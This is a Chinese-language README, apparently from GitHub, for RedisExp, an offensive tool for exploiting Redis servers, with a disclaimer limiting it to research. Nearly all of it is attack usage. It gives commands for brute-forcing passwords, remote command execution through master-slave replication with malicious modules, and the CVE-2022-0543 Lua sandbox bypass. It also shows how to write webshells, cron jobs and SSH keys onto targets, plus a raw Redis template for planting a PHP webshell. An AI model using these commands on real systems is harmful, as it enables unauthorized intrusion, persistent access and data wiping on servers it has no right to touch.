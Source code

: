 ## Redis 漏洞利用工具


### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------


```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

基本连接: 
RedisExp.exe -r 192.168.19.1 -p 6379 -w 123456

爆破 Redis 密码:
RedisExp.exe brute -r 192.168.19.1 -f pass.txt

主从复制执行命令 (默认是交互式 shell)(Redis版本 4.x - 5.x):
RedisExp.exe rce -r 192.168.19.1 -L 127.0.0.1 -c whoami (单次执行)
RedisExp.exe rce -r 192.168.19.1 -L 127.0.0.1
RedisExp.exe rce -r 192.168.19.1 -L 127.0.0.1 -f exp.so (Linux)

主从复制文件上传 (windows 中文需要设置gbk)(Redis版本 4.x - 5.x):
RedisExp.exe upload -r 192.168.19.1 -L 127.0.0.1 -d c:\\中文\\ -f shell.php -F shell.txt -g
RedisExp.exe upload -r 192.168.19.1 -L 127.0.0.1 -f shell.php -F shell.txt

Lua沙盒绕过命令执行 CVE-2022-0543:
RedisExp.exe lua -r 192.168.19.6 -c whoami

备份写 Webshell (Windows 中文路径要设置gbk, linux 中文路径不用设置。webshell的内容是base64，使用 -b 参数来解码。工具默认会关闭Redis压缩进行写入，写入后再恢复。):
RedisExp.exe shell -r 192.168.19.1 -d c:\\中文\\ -f shell.php -s "<?php phpinfo();?>" -g
RedisExp.exe shell -r 192.168.19.1 -d c:\\中文\\ -f shell.php -s "PD9waHAgcGhwaW5mbygpOz8+" -g -b

Linux 写计划任务:
RedisExp.exe cron -r 192.168.19.1 -L 127.0.0.1 -P 2222

Linux 写 SSH 公钥:
RedisExp.exe ssh -r 192.168.19.1 -u root -s "ssh-rsa AAAAB"

执行 Redis 命令:
RedisExp.exe cli -r 192.168.19.1

生成 gopher ssrf redis payload: 
RedisExp.exe gopher -f 1.txt

```

gopher 写webshell模板
```
flushall
config set dir /tmp
config set dbfilename shell.php
set 'webshell' '<?php phpinfo();?>'
save
```

关闭Redis压缩(写入乱码的时候可以关闭压缩，工具在写入shell的时候默认添加了关闭压缩，写入后再恢复开启压缩)
```
config set rdbcompression no
```


1. 具体命令使用 -h 来查看
2. exp.dll 和 exp.so 来自 https://github.com/0671/RabR 已经把内容分别加载到 dll.go 和 so.go 可以直接调用。
3. Windows 中文路径需要设置gbk，使用 -g 参数就可以了。
4. 在写入webshell的时候因为有一些特殊字符，可以使用把webshell进行 base64 编码，然后使用 -b 参数来解码



### 报错

```
工具报错：[ERR Error loading the extension. Please check the server logs.]        module load /tmp/exp.so

服务端报错：Module /tmp/exp.so failed to load: It does not have execute permissions.
```

有可能是 Redis 版本太高， exp.so 没有执行权限导致加载不了。具体需要查看服务端的报错



### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/
- https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher
- [原创 Paper | Windows 与 Java 环境下的 Redis 利用分析](https://mp.weixin.qq.com/s/f7hPOoSSiRJpyMK51_Vxrw)




